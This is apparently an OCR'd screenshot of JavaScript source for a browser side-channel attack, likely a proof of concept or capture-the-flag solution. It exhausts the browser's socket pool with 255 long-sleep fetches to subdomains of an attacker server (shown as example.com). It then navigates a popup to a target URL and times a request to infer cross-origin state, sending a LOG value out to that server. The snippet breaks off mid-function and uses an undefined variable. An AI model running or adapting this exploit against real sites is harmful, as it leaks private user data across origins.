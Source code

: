 ```html
  SOCKETLIMIT = 255
  // default
  TIMELIMIT = 800
  INSTANCE = ""
  MYSERVER = `example.com`

  const sleep = (ms) => {
    return new Promise((resolve) => {
      setTimeout(resolve, ms)
    })
  }

  const time_fetch = async () => {
    let test_server_url = `https://${MYSERVER}/?${LOG}`
    let start = window.performance.now()
    try {
      await fetch(test_server_url, {
        mode: "no-cors",
      })
    } catch (e) {
      console.log(e)
    }
    let end = window.performance.now()
    return end - start
  }

  const fetch_sleep_long = (i) => {
    // 40s sleep
    return fetch(`https://${i}.${MYSERVER}/40sleep`, {
      mode: "no-cors",
    })
  }

  const fetch_sleep_short = (i) => {
    // 0.25s sleep
    return fetch(`https://${i}.${MYSERVER}/ssleep`, {
      mode: "no-cors",
    })
  }

  const block_socket = async (i) => {
    fetch_sleep_long(i)
    // needed?
    await sleep(0)
  }

  const exhaust_sockets = async () => {
    let i = 0
    for (; i < SOCKETLIMIT; i++) {
      block_socket(i)
    }
    console.log(`Used ${i} connections`)
  }

  const timeit = async (url, popup) => {
    return new Promise(async (r) => {
      popup.location = url
      // needed?
      await sleep(50)

      let val = await time_fetch()
      r(val)
    })
```